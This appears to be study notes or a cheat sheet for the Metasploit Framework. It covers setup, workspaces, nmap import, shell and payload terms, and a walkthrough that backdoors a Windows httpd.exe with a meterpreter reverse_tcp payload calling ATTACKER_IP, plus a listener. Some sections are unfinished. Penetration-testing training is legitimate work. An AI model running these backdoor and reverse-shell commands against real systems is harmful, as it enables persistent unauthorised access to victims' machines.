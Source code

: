 [TOC]

# Metasploit Framework

Open-source penetration-testing framework written using the Ruby language.



# 1. Quick Tips

## Launch Metasploit Framework

1. Start PostgreSQL Service

   `~# service postgresql start`

2. Start MSF Database 

   `~# msfdb start`

3. Launch Metasploit Console

   `~# msfconsole`

## Configure MSF Database

Database configuration file located at: */usr/share/metasploit-framework/config/database.yml*

## Workspaces

Workspaces are used to separate datasets in order to stay organized. 

* List workspaces, current workspace denoted with *
  * `msf > workspace`
* Display workspace usage
  * `msf > workspace -h`
* Add/Delete workspace
  * `msf > workspace -a/d NAME`
* Switch workspace
  * `msf > workspace NAME`
* Rename workspace
  * `msf > workspace -r OLD NEW`

## Import Data to MSF Database

Data can be imported directly into the MSF Database from NMAP scan XML, Burp session/issue XML, Qualys asset/scan XML, etc. using the `db_import` command in msfconsole.  Type `msf > db_nmap` to list all supported file types.

1. Export an nmap scan as an XML file

   `# nmap -oX nmapScan.xml 127.0.0.1`

2. Import the scan from msfconsole

   `msf > db_import /location/to/scan/nmapScan.xml`

Alternatively, `msf > db_nmap` could be used within msfconsole to automatically import data from an nmap scan.

## Hosts Command

To be filled ... 

## Services Command

To be filled ... 

## Sessions

To be filled ...



# 2. Information Gathering

## Passive Gathering

Gain information about the target without having any physical connectivity or access to it. We use other sources to gain information about the target, such as whois query, Nslookup, etc.

## Active Gathering

Gain information about the target using a logical connection with the target, such as port scanning, service enumeration, vulnerability scanning, etc.



# 3. Server-Side Exploitation

## Install a Backdoor (on Windows)

Having a shell on a target machine is useful, but persistence is needed so as to not repeat the entire exploitation process. A backdoor ensures persistence and access to the system, even if the vulnerability is patched.

### Windows Registry Only Persistence Module

We will use the Windows Registry Only Persistence local exploit module to create a backdoor that is executed during boot.

1. The first step is to locate a persistent service, or application, on the target's system. Let's assume they're running a web server from their machine, therefore the persistent application is *httpd.exe*.

2. The next step is to download the binary file from the target's system using the `download` command within the meterpreter session.

   `meterpreter > download C:\\wamp\\bin\\apache\\apache2.2.21\\bin\\httpd.exe`

3. We'll use a reverse TCP payload to backdoor the service

   ```
   msf > use payload/windows/x64/meterpreter/reverse_tcp
   msf payload(reverse_tcp) > set LHOST ATTACKER_IP
   msf payload(reverse_tcp) > generate -a x64 -p Windows -x /root/httpd.exe -k -t exe -f httpd-backdoored.exe
   ```

   * **-a** to specify the target system's architecture
   * **-p** the target system's platform
   * **-x** the executable template to use
   * **-k** to keep the executable template functional
   * **-t** the output format
   * **-f** the output filename

4. The backdoor is ready, now we need to start a listener for the reverse TCP using the Generic Payload Handler exploit.

   ```
   msf > use exploit/multi/handler
   msf exploit(handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf exploit(handler) > set LHOST ATTACKER_IP
   msf exploit(handler) > exploit -j
   ```

   * The command `exploit -j` will run the "exploit" in the context of a job, allowing us to go back to our session and continue the attack. The "exploit" will run in the background until a connection is established.





------

# Key Terms

## Shells

### Bind Shell

A bind shell instructs the target's machine to listen for an incoming connection from the attacker's machine. It's great for local vulnerabilities and privilege escalation, such as when you already have access to a target machine; however, it's not suitable for most remote exploitations because the target is likely behind a firewall.

### Reverse Shell

A reverse shell establishes a connection by opening a port and listening for a connection from the target's machine, and since most outbound rules are more on-premise (disallowing incoming connections, but allowing outgoing connections), a reverse shell is more likely to bypass the firewall.

## Payloads

### Singles

Singles are payloads that are self-contained and completely standalone. A single payload can be as simple as adding a user to the target system or running an executable. The downside of singles is their massive file size, as opposed to the miniscule size of a stager.

### Stagers

A stager will set up a network connection between the attacker and victim, and it is designed to be small and reliable.

### Stages

Stages are payload components downloaded by the stager that provide advanced features with no size limits, such as *dllinject*, *meterpreter*, *upexec*, *vncinject*, etc.

------

# Appendix

* msf : Metasploit Framework
* xml : 
* nmap : 
